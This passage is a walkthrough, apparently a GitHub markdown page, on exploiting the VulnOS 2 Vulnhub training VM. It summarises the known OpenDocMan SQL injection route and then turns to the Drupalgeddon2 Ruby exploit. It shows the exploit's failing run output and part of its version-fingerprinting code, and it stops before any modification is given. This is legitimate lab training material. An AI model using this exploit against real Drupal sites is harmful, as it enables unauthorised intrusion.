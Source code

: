 # VulnOS2.0 Exploitation via Drupalgeddon2

I don't generally create extraneous walkthoughs for Vulnhub virtual machines if robust, accurate analyses and explanations already exist, as is the case for the OSCP-like VMs listed [here](https://www.abatchy.com/2017/02/oscp-like-vulnhub-vms) and [here](https://medium.com/@andr3w_hilton/oscp-training-vms-hosted-on-vulnhub-com-22fa061bf6a1). On the other hand, I always like documenting less popular avenues of exploitation. 

For [VulnOS: 2](https://www.vulnhub.com/entry/vulnos-2,147/), there is extensive documentation on obtaining unprivileged shell access via the following steps:

1. Identifying the [SQLi vulnerability of the OpenDocMan software](https://www.exploit-db.com/exploits/32075/) running at the `/jabd0cs/` URI. 
2. Dumping the MySQL `user` table by using the OpenDocMan vulnerability (either manually or with `sqlmap`)
3. Cracking the `webin` user password hash (using `john` or a similar tool)
4. Logging in as the `webmin` user, via SSH, using the cracked password

However, there is another way.

Specifically, limited shell access can be obtained via the widely-publicized `Drupalgeddon2` exploit. Several of the aforementioned walkthoughs state that many of the `drupalgeddon` exploits listed on ExploitDB do not work out-of-the-box against VulnOS2; from my experience this seems true. That said, [the Ruby script 44449.rb](https://www.exploit-db.com/exploits/44449/) works with minor modifications.


## Exploit Analysis
If we run the exploit as-is, we see that it clearly fails. 

```bash
root@kali:Exploit$ echo '192.168.56.11 example.net' >> /etc/hosts
root@kali:Exploit$ ruby 44449.rb http://example.net/jabc/
ruby: warning: shebang line ending with \r may cause problems
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[*] Target : http://example.net/jabc/
--------------------------------------------------------------------------------
[!] MISSING: http://example.net/jabc/CHANGELOG.txt (404)
[!] MISSING: http://example.net/jabc/core/CHANGELOG.txt (404)
[+] Found  : http://example.net/jabc/includes/bootstrap.inc (200)
[+] Drupal!: can detect a matching directory
--------------------------------------------------------------------------------
[*] Testing: Code Execution
[*] Payload: echo YMNCMUIV
[!] Unsupported Drupal version
```

However, the output suggests that it this may be due to a failure to determine the Drupal version. 

Inspecting the code reveals the following lines, intended to fingerprint the Drupal installation.

```ruby
...
# Try and get version
$drupalverion = nil
# Possible URLs
url = [
  $target + "CHANGELOG.txt",
  $target + "core/CHANGELOG.txt",
  $target + "includes/bootstrap.inc",
  $target + "core/includes/bootstrap.inc",
]
# Check all
url.each do|uri|
  # Check response
```